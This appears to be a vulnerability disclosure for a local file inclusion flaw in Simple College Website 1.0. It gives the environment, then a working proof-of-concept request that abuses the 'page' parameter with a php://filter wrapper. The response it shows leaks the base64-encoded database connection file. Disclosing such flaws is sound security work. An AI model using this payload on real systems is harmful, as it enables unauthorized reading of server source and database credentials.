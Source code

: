 # Simple College Website 1.0 - 'page' Local File Inclusion

# Vendor Homepage: https://www.sourcecodester.com/php/14548/simple-college-website-using-htmlphpmysqli-source-code.html
# Software Link: https://www.sourcecodester.com/sites/default/files/download/oretnom23/simple-college-website.zip
# Version: 1.0


## Vulnerability Type :
Local File Inclusion


## Vulnerability Version :
1.0


## Recurring environment:
* Windows 10
* PHP 5.4.5
* Apache 2.4.23


## Vulnerability Description AND recurrence:

```
#Request
 
GET /college_website/index.php?page=php://filter/convert.base64-encode/resource=admin/db_connect HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Cookie: PHPSESSID=7ls9j695lglc2eah5khecv2g66
Upgrade-Insecure-Requests: 1
Sec-GPC: 1
Cache-Control: max-age=0
```
 
#Response 
``` 
 <main class="">
 
        PD9waHAgDQoNCiRjb25uPSBuZXcgbXlzcWxpKCdsb2NhbGhvc3QnLCdyb290JywncGFzc3dvcmQnLCdjb2xsZWdlX3dlYnNpdGVfZGInKW9yIGRpZSgiQ291bGQgbm90IGNvbm5lY3QgdG8gbXlzcWwiLm15c3FsaV9lcnJvcigkY29uKSk7DQo=       
 
</main>
```
